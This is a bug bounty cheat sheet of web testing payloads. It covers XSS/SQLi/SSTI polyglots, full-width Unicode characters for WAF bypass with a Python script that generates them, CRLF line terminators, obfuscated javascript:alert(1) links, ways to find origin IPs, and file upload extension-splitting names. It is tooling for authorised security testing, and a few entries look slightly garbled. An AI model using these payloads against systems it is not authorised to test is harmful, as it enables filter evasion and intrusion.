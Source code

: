 ```yaml
---
layout: memory
title: Bug Bounty Cheat Sheet
---
```


<p align="center">
<img width="600" src="/images/bugbounty.png">
</p>

A cheat sheet for quick testing related to some of my Bug Bounty activities


## Test for XSS or SQLi as a oneliner

Testing Oneliner: `qwert'"<x</`

Explanation:
```
qwert - easy to type & find in HTML
'" - JS/HTML breakout & SQLi
<x - HTML injection test
</ - <script> breakout

extra for SSTI/CSTI

{{[7*7]}}${7*7}qwe'"<x</
```

## A full-width version of symbols related to XSS, CRLF, WAF bypass

```
＜ = %EF%BC%9C = \uFF1C ⇒ %3C (<)
＞ = %EF%BC%9E = \uFF1E ⇒ %3E (>)
＼ = %EF%BC%BC = \uFF3C ⇒ %5C (\)
／ = %EF%BC%8F = \uFF0F ⇒ %2F (/)
＇ = %EF%BC%87 = \uFF07 ⇒ %27 (')
＂ = %EF%BC%82 = \uFF02 ⇒ %22 (")

%0A (LF) ⇒ %EF%BB%AA = \uFEEA = ﻪ
%0D (CR) ⇒ %EF%BB%AD = \uFEED ⇒ ﻭ
```

This was produced by using this script:

```python
import argparse
import urllib.parse

def create_full_width(hex_value):
    hex_value = hex_value.upper()
    base_decimal = int(hex_value, 16)
    s = chr(base_decimal)

    if hex_value == '0A':
        s = 'LF'
    if hex_value == '0D':
        s = 'CR'

    fw_decimal = base_decimal + 0xFEE0
    fw_hex = format(fw_decimal, 'X')
    fw_char = chr(fw_decimal)
    fw_enc = urllib.parse.quote(fw_char).upper()

    return f"{fw_char} = %{fw_enc} = \\u{fw_hex} ⇒ %{hex_value} ({s})"

def showcase():
    # Example usage
    print(create_full_width('3C'))  # Output: ＜ = %EF%BC%9C = \uFF1C ⇒ %3C (<)
    print(create_full_width('3E'))  # Output: ＞ = %EF%BC%9E = \uFF1E ⇒ %3E (>)
    print(create_full_width('5C'))  # Output: ＼ = %EF%BC%BC = \uFF3C ⇒ %5C (\)
    print(create_full_width('2F'))  # Output: ／ = %EF%BC%8F = \uFF0F ⇒ %2F (/)
    print(create_full_width('27'))  # Output: ＇ = %EF%BC%87 = \uFF07 ⇒ %27 (')
    print(create_full_width('22'))  # Output: ＂ = %EF%BC%82 = \uFF02 ⇒ %22 (")
    print(create_full_width('0A'))  # Output: %0A (LF) ⇒ %EF%BB%AA = \uFEEA = ﻪ
    print(create_full_width('0D'))  # Output: %0D (CR) ⇒ %EF%BB%AD = \uFEED ⇒ ﻭ


def main():
    parser = argparse.ArgumentParser(description="Convert hex values to full-width characters and their URL-encoded representations.")
    parser.add_argument("--hex", help="Input hex value to convert", type=str, default=None)
    parser.add_argument("--demo", help="Showcase with demo input", action="store_true")
    args = parser.parse_args()

    if args.demo:
        showcase()
        
    if args.hex:
        print(create_full_width(args.hex))

if __name__ == "__main__":
    main()
```


## Line terminators for XSS / CRLF injection

```
LF: %0A (\u000A)
VT: %0B (\u000B)
FF: %0C (\u000C)
CR: %0D (\u000D)
CR+LF: %0D%0A (\u000D\u000A)
NEL: %C2%85 (\u0085)
LS: %E2%80%A8 (\u2028)
PS: %E2%80%A9 (\u2029)
```

## Bypass WAF 

Bypass by discovering the origin IP address of a server using the following:

- search domain on [Censys](https://search.censys.io/)
- domain history on [SecurityTrails](https://securitytrails.com/)
- test pingbacks (XML-RPC, SSRF)
- fake email to domain & check receipt
- receive domain email & check headers


## Injecting HTML character entities in different places of the URL

```html
<a href="{A}javas{B}cript{C}:alert(1)">
```

1. &#01, &#02 ... up to ... &#32
1. &#09, &#10, &#13
1. &#09, &#10, &#13

Example:
```html
<a href="&#27;javas&#09;cript&#13;:alert(1)">
Click Me
</a>
```


## Encodings for Common Symbols used for testing

```
`<` = %3C \u003c &#x3c; &#60; &lt;
`>` = %3E \u003e &#x3e; &#62; &gt;
`'` = %27 \u0027 &#x27; &#39; &apos;
`"` = %22 \u0022 &#x22; &#34; &quot;
`\` = %5C \u005c &#x5c; &#92; &bsol;
`/` = %2F \u002f &#x2f; &#47; &sol;
`:` = %3A \u003A &#x3A; &#58; &colon;
`%` = %25 \u0025 &#x25; &#37; &percnt;
`&` = %26 \u0026 &#x26; &#38; &amp;
`.` = %2E \u002e &#x2e; &#46; &period;
``` = %60 \u0060 &#x60; &#96; &grave;
`+` = %2B \u002B &#x2b; &#43; &plus;
```

## File upload extension splitting

```
qwe.php.png
qwe.php\x20.png
qwe.php\00.png
qwe.php\x00.png
qwe.php%00.png
qwe.php&#00;.png
qwe. e.php&#x00; .png
qwe.php\u0000.png
qwe.php%20.png
qwe.php&#20;.png
qwe.php&#x20;.png
qwe.php; .png
qwe.php%3B.png
qwe.php\x3B.png
qwe.php&#59;.png
qwe.php&#x3b;.png
qwe.php\u003b.png
qwe.php\u563b.png
qwe.php%C0%bb.png
qwe.php%E5%98%bb.png
qwe.php%E0%80%bb.png
qwe.php%E0%80%80.png
qwe.php%C0%A0.] 9.png
qwe.php%E5%98%A0.png
qwe.php%E0%80%A0.png
qwe.php\u5600.png
qwe.php\u5620.png
qwe.php%C0%80.png
qwe.php\u0020.png
```